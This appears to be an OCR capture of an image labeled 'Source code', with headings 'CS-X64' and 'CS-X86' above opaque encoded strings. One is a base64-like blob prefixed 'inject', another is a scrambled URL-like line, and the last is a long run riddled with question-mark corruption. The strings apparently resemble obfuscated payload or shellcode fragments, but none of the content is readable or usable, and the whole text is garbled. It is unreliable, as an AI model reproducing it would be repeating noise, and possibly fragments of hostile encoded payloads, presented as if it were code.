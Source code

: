 # CS-X64

injectFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuUGsBTuw==ebszg

# CS-X86

adminfwpum@%%wthugq#twf/HcqgrtDmxjy-lfp/esff/lcwu/hefp/nfu1#uhn?aqh=gdjejeson

bsera33?|????2,m;???6?,U;10?,5;???1??4,Q;1????8,G????;??22,@;?2???6,,;3????0???,????%;3?4???,?b;3????8,g?;4?2,3;??46,G????;50,l????;54,?J;58,???N?;62,H??;66,j??;???70,?1??;74,S????;78??,A????;82?,0;86???,w;9?0,4;?94????,M;9??8,%???;102,??%??;106,???L;11????0,K;????1????1????4,x??;118,??o;1?22????,%;?126,??H;1???30????,??2;??|A????fbm4???d??.U2,???I5Xy????Y?Qoq9G??tC??k??@?XFA????,K??PN??%5bp???b13J?gph.3???x???TQG??3Q8l???nHCJ???R2iN???ud7HW?uv????jpCO??1hCES????vHxA?f?b807???eLw????BLl4??HY????4MuT????k%b?kF%????5dpLp???qwKVX????bxP???L8????o?.WX%???UtCH??CdW2=rgves
